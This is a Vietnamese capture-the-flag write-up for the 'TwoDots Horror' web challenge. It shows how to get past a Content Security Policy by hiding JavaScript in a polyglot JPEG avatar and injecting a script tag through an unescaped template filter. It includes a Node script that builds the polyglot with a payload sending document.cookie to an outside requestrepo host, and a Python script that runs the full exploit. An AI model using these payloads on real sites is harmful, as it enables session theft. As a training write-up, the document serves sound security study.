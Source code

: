 # TwoDots Horror

Bài này là một bài mà ý tưởng chính rất dễ nảy ra nhưng để thực hiện nó mình đã gặp rất nhiều khó khăn 🤕

Trước giờ mình cũng rất lười làm các bài client side vì thường các con bot sẽ sử dụng headless chrome nên mình thấy nó rất khó để biết xem chuyện gì đã xảy ra, nhưng từ bài này mình thấy dễ chịu hơn hẳn 🤣

## Tổng quan
Ở bài này mình sẽ giải ở localhost cho dễ rồi mới đưa payload lên server.

Nói sơ qua thì đây là một trang web cho phép người dùng nhập note, những note nhập được không hiển thị ngay mà chỉ có bot mới xem được thôi (do đoạn check `req.ip`). 

```js
router.get('/review', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getPosts(0)
		.then(feed => {
			res.render('review.html', { feed });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

Ngoài ra webapp còn cho người dùng upload avatar.

Mình còn thấy người ta set CSP như sau
```js
app.use(function(req, res, next) {
	res.setHeader("Content-Security-Policy", "default-src 'self'; object-src 'none'; style-src 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com;")
	next();
});
```

Sử dụng [web](https://csp-evaluator.withgoogle.com/) để kiểm tra thì thấy như sau
![Oops](./images/cspevaluation.png)

Ở đây có tính năng upload file avatar nên mình nảy ra ý tưởng giấu JavaScript vào trong ảnh và upload lên.

Phần upload ảnh được handle như sau. 
```js
async uploadImage(file) {
		return new Promise(async (resolve, reject) => {
			if(file == undefined) return reject(new Error("Please select a file to upload!"));
			try{
				if (!isJpg(file.data)) return reject(new Error("Please upload a valid JPEG image!"));
				const dimensions = sizeOf(file.data);
				if(!(dimensions.width >= 120 && dimensions.height >= 120)) {
					return reject(new Error("Image size must be at least 120x120!"));
				}
				uploadPath = path.join(__dirname, '/../uploads', file.md5);
				file.mv(uploadPath, (err) => {
					if (err) return reject(err);
				});
				return resolve(file.md5);
			}catch (e){
				console.log(e);
				reject(e);
			}
			
		});
	}
```

Tóm gọn lại thì file được upload lên nên là file jpg. Mình thử search "hide js in jpg" thì thấy được bài viết [này](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjSmvSjp-3-AhWHf94KHUkBD_EQFnoECAcQAQ&url=https%3A%2F%2Fmedium.com%2F%40codedbrain%2Fhiding-js-in-a-jpeg-header-454386f9e20&usg=AOvVaw2UoKk7PF-7yR6Mq_BD-c3K).

Trước tiên mình cần tìm một chỗ nào đó để HTML injection. Thì do bot chỉ tới `/review` thôi nên mình xem trong file `review.html` thì thấy `{{ post.content|safe }}` với `post.content` là note mình gửi lên và filter `safe` của nunjuck template cho phép HTML injection (https://mozilla.github.io/nunjucks/templating.html#safe)

Và thấy nó rất khả thi, nhưng thử hoài không được. 

Một phần là do không thấy được behavior của browser nên khá khó chịu. 

Sau đó mình nảy ra một ý.

Mình sửa `req.ip != '127.0.0.1'` thành `req.query.ip != '127.0.0.1'` để mình có thể xem được luôn để dễ dàng thấy được browser đang làm gì.

![Oops](./images/review.png)

Và mình cũng comment luôn đoạn gọi bot vào xem note và mình sẽ tự vào xem note bằng `http://127.0.0.1?ip=127.0.0.1`.
```js
router.post('/api/submit', AuthMiddleware, async (req, res) => {
	return db.getUser(req.data.username)
		.then(user => {
			if (user === undefined) return res.redirect('/'); 
			const { content } = req.body;
			if(content){
				twoDots = content.match(/\./g);
				if(twoDots == null || twoDots.length != 2){
					return res.status(403).send(response('Your story must contain two sentences! We call it TwoDots Horror!'));
				}
				return db.addPost(user.username, content)
					.then(() => {
						// bot.purgeData(db);
						res.send(response('Your submission is awaiting approval by Admin!'));
					});
			}
			return res.status(403).send(response('Please write your story first!'));
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

Hai chỉnh sửa của mình ở trên giúp mình xem được payload của mình có hoạt động không một cách dễ dàng. Thực ra còn một lý do nữa là do `Dockerfile` người ta không chạy được phần browser do thiếu thư viện mà mình không biết cài 🤣

Thì mình thấy payload của mình bị như sau

![Oops](./images/error.png)

Là do file của mình như thế này

![Oops](./images/error2.png)

Đáng ra 4 dấu chấm hỏi kia phải là `ÿØÿà` như này thì mới hoạt động như hướng dẫn được 😢

Sau khi stuck mồi hồi lâu thì mình tìm writeup và lướt tìm các link reference (như vậy có tính là coi writeup không 🤣) thì thấy link ![này](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs). Lướt qua thì thấy cũng tương tự link medium trước nhưng có nói thêm về `charset="ISO-8859-1"`. Thực ra cái này mình cũng đã nghĩ đến nhưng mà lúc search thì không thấy chỗ nào viết là có `charset` attribute nên không làm được.

Tóm lại lý do là người ta dùng mặc định là UTF-8 mà các byte đó không tuân theo UTF-8 nên mình phải đổi charset cho phù hợp.

Sau khi thêm vào thì payload đã hoạt động được.

Cách làm của mình như sau:
- Lấy đại một file ảnh jpg nhỏ.
- Sau đó sửa lại source sinh payload ở trên link medium để thỏa mãn.
```js
const fs = require('fs');

var a = fs.readFileSync('aa.jpg');
var b = a.toString("hex");
var c = b.substr(0, 40);

var e = `*/=1;window.open('http://jwki2d2f.requestrepo.com?' + document.cookie)/*`.split("").map(function(e) {return e.charCodeAt(0).toString(16)}).join("");

var f = b.substr(40, b.length);
var d = Array(12044).fill("00").join(""); // 0x2f2a - 16 - len(e), e ở dưới
var d = Array(0x2F2A - 16 - e.length / 2).fill("00").join(""); // 0x2f2a - 16 - len(e) / 2       //  chia 2 vì e đang ở dạng hex

var g = c + d + e + f;

var h = new Buffer(g, "hex");
var i = fs.writeFileSync("payload.txt", h);
```
Payload chính để XSS là `window.open('http://jwki2d2f.requestrepo.com?' + document.cookie)`. Không thể dùng `fetch()` vì sẽ vi phạm CSP.
- Sử dụng hexeditor để sửa lại một vài byte của file `payload.txt` sinh ra.
- Sử dụng code dưới để khai thác.  

```py
import requests

URL = '[instance URL]'

r = requests.post(URL + '/api/register', json = {'username': 'hehe', 'password': 'hehe'})
r = requests.post(URL + '/api/login', json = {'username': 'hehe', 'password': 'hehe'})
cookie = {'session': r.headers['Set-Cookie'].split(';')[0].split('=')[1]}
r = requests.post(URL + '/api/upload', files = {'avatarFile': open('payload.txt', 'rb')}, cookies = cookie)
r = requests.post(URL + '/api/submit', json = {'content': '<script charset="ISO-8859-1" src=/api/avatar/hehe>..</script>'}, cookies = cookie)
```

Đoạn code đó đầu tiên sẽ đăng ký với `username`, `password` đều là `hehe`. Sau đó đăng nhập để lấy cookie, rồi upload file `payload.txt` lên và gửi note với nội dung `<script charset="ISO-8859-1" src=/api/avatar/hehe>..</script>`.

Flag 🚩
![Oops](./images/flag.png)